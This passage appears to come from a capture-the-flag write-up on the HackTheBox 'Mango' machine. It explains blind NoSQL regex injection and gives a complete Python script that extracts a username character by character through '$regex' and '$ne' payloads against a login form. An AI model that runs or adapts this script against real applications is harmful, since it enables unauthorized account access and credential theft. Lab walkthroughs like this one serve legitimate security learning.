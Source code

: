 ```
302 Found means that the regex matched, so username start with a a.
200 OK the regex did not match.
```

With this in mind we can start trying to match the next character, ^ad, ^adm... and go on until the hole username... got it?

Let's built our script in python to bruteforce the username and the password

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-13-HackTheBox-Mango/2021-09-13-HackTheBox-Mango%2006:47:39.png)

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# NOSQL User Exfiltrate - Mango HackTheBox
# Date: 13/09/21

import argparse
import requests
import sys
import string

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
def userExtract(rhost):
    url = "http://%s" %rhost
    global username
    username = ""
    password = ""
    list = string.ascii_letters
    iterator = 0
    while(iterator < len(list)):
        for c in list[iterator]:
            payload = {
                "username[$regex]": "^"+username+c,
                #"username[$regex]": "^(?!admin)"+username+c,
                "password[$ne]": password
            }
            r = requests.post(url, data=payload, allow_redirects=False, proxies=proxies)
            if r.status_code == 302:
                print(f"[+] Found one more char : {username+c}")
                username += c
                iterator = 0
            else:
                iterator = iterator + 1
    print("[+] Username Fouuuund!! : %s [+]" %username)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()

    rhost = args.target

    '''Here we call the functions'''
    # Let's exfiltrate the admin user
    userExtract(rhost)
if __name__ == '__main__':
    main()
```
